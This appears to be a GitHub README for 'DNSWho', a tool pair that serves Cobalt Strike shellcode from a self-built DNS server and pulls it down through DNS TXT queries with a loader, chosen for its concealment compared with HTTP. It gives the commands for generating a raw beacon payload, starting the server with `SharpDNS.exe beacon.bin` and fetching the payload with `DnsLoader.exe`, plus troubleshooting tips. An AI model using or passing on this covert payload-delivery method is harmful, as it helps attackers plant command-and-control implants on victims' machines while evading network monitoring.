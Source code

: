 # DNSWho

Implement a dns server = SharpDNS.exe             
Implement a "client" = DnsLoader.exe               

Compared with the http protocol, the dns protocol has better concealment. Analogous to the dns beacon of cs, we can implement a dns server to transmit shellcode by ourselves. C# has an excellent third-party library [ARSoft.Tools.Net](https://www.nuget.org/packages/ARSoft.Tools.Net/). We can use it for dns query and self-built dns server.               

Create a new console project of .net4.0 and install ARSoft.Tools.Net. Because of the .net version problem, we need to install the lower version of ARSoft.Tools.Net.                                   
[`Install-Package ARSoft.Tools.Net -Version 1.8.2`](https://www.nuget.org/packages/ARSoft.Tools.Net/1.8.2)            


![image](https://user-images.githubusercontent.com/25066959/104516114-d1b0b500-55c1-11eb-8bb5-98e9437d8775.png)             

So generate a raw cs payload if you are smart you wont make it stageless because it will be way to big.                 

![image](https://user-images.githubusercontent.com/25066959/104516517-78955100-55c2-11eb-99ce-2d8a5daf6e9a.png)                       

Then spinup the DNS server and make sure that the length is the same in wireshark as the one displayed in the terminal. `SharpDNS.exe beacon.bin`                       
The output will look like the following:                

![image](https://user-images.githubusercontent.com/25066959/105061777-e4a30980-5a47-11eb-906f-cdc712b8ae01.png)            

![image](https://user-images.githubusercontent.com/25066959/104516603-a24e7800-55c2-11eb-9805-fc644b49b11b.png)                         

then simply catch it `DnsLoader.exe <DNS> <CDN> 2000`                   

Note that the txt parsing of dns cannot be transmitted too much at a time, and the 2000 used in my test so that there is no problem.                    

![image](https://user-images.githubusercontent.com/25066959/104516478-61eefa00-55c2-11eb-90fd-74655d9c47fe.png)                      

Tada...                   

![image](https://user-images.githubusercontent.com/25066959/104516815-f48f9900-55c2-11eb-8175-7df4d4bbaedf.png)            



-----

### Having Issues?     

If you get the following error this is because youre not running this on the same machine as your DNS. That is because svchost.exe listens to UDP53

![image](https://user-images.githubusercontent.com/25066959/104516892-1d179300-55c3-11eb-91e6-92c9c5aa2884.png)

Additionally dont try to change the port for the `DnsServer` because you cant:

![image](https://user-images.githubusercontent.com/25066959/104517202-9c0ccb80-55c3-11eb-895c-0d6ae9e45dd2.png)

![image](https://user-images.githubusercontent.com/25066959/104517231-ac24ab00-55c3-11eb-828e-7feb1e16d003.png)
